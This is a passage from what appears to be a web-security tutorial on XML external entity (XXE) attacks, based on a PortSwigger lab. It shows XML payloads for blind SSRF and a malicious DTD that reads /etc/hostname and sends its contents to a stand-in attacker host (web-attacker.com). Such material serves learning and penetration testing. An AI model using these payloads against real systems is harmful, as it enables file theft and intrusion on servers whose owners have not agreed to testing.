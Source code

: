 ### Blind SSRF

Using the **previously commented technique** you can make the server access a server you control to show it's vulnerable. But, if that's not working, maybe is because **XML entities aren't allowed**, in that case you could try using **XML parameter entities**:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY % xxe SYSTEM "http://gtd8nhwxylcik0mt2dgvpeapkgq7ew.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

### "Blind" SSRF - Exfiltrate data out-of-band

**In this occasion we are going to make the server load a new DTD with a malicious payload that will send the content of a file via HTTP request (for multi-line files you could try to ex-filtrate it via \_ftp://**\_ using this basic server for example [**xxe-ftp-server.rb**](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)**). This explanation is based in** [**Portswiggers lab here**](https://portswigger.net/web-security/xxe/blind)**.**

In the given malicious DTD, a series of steps are conducted to exfiltrate data:

### Malicious DTD Example:

The structure is as follows:

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY % exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

The steps executed by this DTD include:

1. **Definition of Parameter Entities:**
   - An XML parameter entity, `%file`, is created, reading the content of the `/etc/hostname` file.
   - Another XML parameter entity, `%eval`, is defined. It dynamically declares a new XML parameter entity, `%exfiltrate`. The `%exfiltrate` entity is set to make an HTTP request to the attacker's server, passing the content of the `%file` entity within the query string of the URL.
2. **Execution of Entities:**
   - The `%eval` entity is utilized, leading to the execution of the dynamic declaration of the `%exfiltrate` entity.
   - The `%exfiltrate` entity is then used, triggering an HTTP request to the specified URL with the file's contents.

The attacker hosts this malicious DTD on a server under their control, typically at a URL like `http://web-attacker.com/malicious.dtd`.

**XXE Payload:** To exploit a vulnerable application, the attacker sends an XXE payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```
